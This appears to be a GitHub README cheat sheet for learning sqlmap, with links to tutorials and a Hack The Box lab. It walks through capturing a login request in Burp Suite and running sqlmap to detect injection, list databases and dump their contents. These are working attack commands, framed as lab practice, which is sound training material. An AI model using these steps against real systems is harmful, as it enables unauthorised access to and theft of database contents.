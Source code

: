 ### Learn about SQLmap
- [SQLmap tutorial for begineers](https://tryhackme.com/room/sqlmap)
- [SQLmap video tutorial](https://www.youtube.com/watch?v=pF7uz_ptuFc&ab_channel=ElPing%C3%BCinodeMario)
- [SQLmap extended video tutorial](https://www.youtube.com/watch?v=2y70Yj0oSxw&ab_channel=SEGURIDADCERO)
### Labs for practice
- [SQLi Laboratory for practice](https://app.hackthebox.com/machines/446)

# Usage

## 1) Intercept the request header with burpsuite, the request should be like:
```javascript
POST /login HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.10.11.130
DNT: 1
Connection: close
Referer: http://10.10.11.130/
Upgrade-Insecure-Requests: 1

email=admin%40admin.com&password=admin // <--This field its the injection point
```
## 2) Create a .txt file (peticion.txt) and paste the Burpsuite request
```bash
nano peticion.txt
```
## 3) Use SQLmap with the previouse .txt file (peticion.txt example)
```bash
sqlmap -r peticion.txt
```
- Note: Sometimes SQLmap would ask if we want to add some extra parameteres.
- Note 2: You can access the output on path: /home/kali/.local/share/sqlmap/output/<target_host_name>
## 4) Detect the current databases. After this payload we should see at the output the lists of Databases
```bash
sqlmap -r peticion.txt -dbs
```
## 5) Dump the database information
```bash
sqlmap -r peticion.txt -D <name_of_database> -dump
```
